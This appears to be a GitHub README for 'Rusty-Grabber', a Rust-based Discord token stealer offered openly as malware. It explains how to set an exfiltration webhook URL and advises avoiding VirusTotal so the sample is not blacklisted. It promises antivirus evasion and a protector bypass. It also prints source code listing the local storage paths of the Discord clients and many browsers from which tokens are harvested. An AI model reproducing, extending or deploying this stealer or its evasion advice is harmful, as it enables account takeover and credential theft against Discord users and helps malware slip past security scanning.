 # Rusty-Grabber 🚀
- *a blazing fast Discord Token Grabber, no popo made with python*

## Fastest Token Grabber **ever** :
```bash
Rusty-Grabber> time ./target/release/grabber
0.00user 0.00system 0:00.72elapsed 0%CPU (0avgtext+0avgdata 5396maxresident)k
0inputs+0outputs (1419major+0minor)pagefaults 0swaps
```
```
- Multithreading (Rayon, Tokio) -> Threading each path's and requests
- Parallelism (Rayon, jwalk) -> All files read simultaneously, jwalk to go to each entries fastly
- Mutex, Arc -> thread safety
```

## Fill your Webhook in utils.rs :
```bash
./src/global/utils.rs:4 in the WEBHOOK_URL const.
```

## virus total report with 0 Obfuscation, Xoring or AV Evasion
**![Alt text](https://media.discordapp.net/attachments/1146101828451303476/1146101874282471626/Wb8Bg40.png?width=1556&height=820)**
### Avoid using virus total when scanning the malware.
### They will blacklist the program
### Use [kleenscan](https://kleenscan.com/) instead (Anonymous reporting)

## I will maintain the code updated and more optimised
```md
- Work with new discord token's encryption 2023
- Grab all token's possible
- Check each token's
- Soon DiscordProtector bypasser and AV evasion maybe paid
```

## Browser's & Discord Client handle :
```rs
lazy_static! {
    pub static ref PATHS: HashMap<&'static str, String> = {
        let map = HashMap::from([
            ("Discord", format!("{}\\discord\\Local Storage\\leveldb\\", ROAMING)),
            ("Discord Canary", format!("{}\\discordcanary\\Local Storage\\leveldb\\", ROAMING)),
            ("Lightcord", format!("{}\\Lightcord\\Local Storage\\leveldb\\", ROAMING)),
            ("Discord PTB", format!("{}\\discordptb\\Local Storage\\leveldb\\", ROAMING)),
            ("Opera", format!("{}\\Opera Software\\Opera Stable\\Local Storage\\leveldb\\", ROAMING)),
            ("Opera GX", format!("{}\\Opera Software\\Opera GX Stable\\Local Storage\\leveldb\\", ROAMING)),
            ("Amigo", format!("{}\\Amigo\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Torch", format!("{}\\Torch\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Kometa", format!("{}\\Kometa\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Orbitum", format!("{}\\Orbitum\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("CentBrowser", format!("{}\\CentBrowser\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("7Star", format!("{}\\7Star\\7Star\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Sputnik", format!("{}\\Sputnik\\Sputnik\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Vivaldi", format!("{}\\Vivaldi\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome SxS", format!("{}\\Google\\Chrome SxS\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Firefox", format!("{}\\Mozilla\\Firefox\\Profiles\\", ROAMING)),
            ("Chrome", format!("{}\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome1", format!("{}\\Google\\Chrome\\User Data\\Profile 1\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome2", format!("{}\\Google\\Chrome\\User Data\\Profile 2\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome3", format!("{}\\Google\\Chrome\\User Data\\Profile 3\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome4", format!("{}\\Google\\Chrome\\User Data\\Profile 4\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome5", format!("{}\\Google\\Chrome\\User Data\\Profile 5\\Local Storage\\leveldb\\", APPDATA)),
            ("Epic Privacy Browser", format!("{}\\Epic Privacy Browser\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Microsoft Edge", format!("{}\\Microsoft\\Edge\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Uran", format!("{}\\uCozMedia\\Uran\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Yandex", format!("{}\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Brave", format!("{}\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Iridium", format!("{}\\Iridium\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
        ]);
        map
    };
}
```
